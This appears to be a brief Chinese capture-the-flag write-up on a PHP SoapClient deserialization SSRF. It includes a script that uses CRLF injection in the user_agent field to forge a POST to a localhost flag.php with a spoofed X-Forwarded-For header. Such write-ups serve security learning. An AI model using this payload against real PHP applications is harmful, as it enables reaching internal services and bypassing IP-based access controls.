

# 知识点
### ssrf
[SoapClient反序列化SSRF](https://zhuanlan.zhihu.com/p/80918004)
### SoapClient类
[PHP: SoapClient - Manual](https://www.php.net/manual/en/class.soapclient.php)<br />这个类中有个__call魔术方法（当调用不存在的方法时触发），会调用SoapClient类的构造方法。<br />另外用到的一个文章识点就是CRLF，具体的可以先看下大佬写的[文章](https://wooyun.js.org/drops/CRLF%20Injection%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AE%9E%E4%BE%8B%E5%88%86%E6%9E%90.html)
# 思路
```plsql
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^X-Forwarded-For:127.0.0.1,127.0.0.1^^Content-Type: application/x-www-form-urlencoded'.'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'=> "ssrf"));
$a = serialize($b);
$a = str_replace('^^',"\r\n",$a);
echo urlencode($a);
?>
```

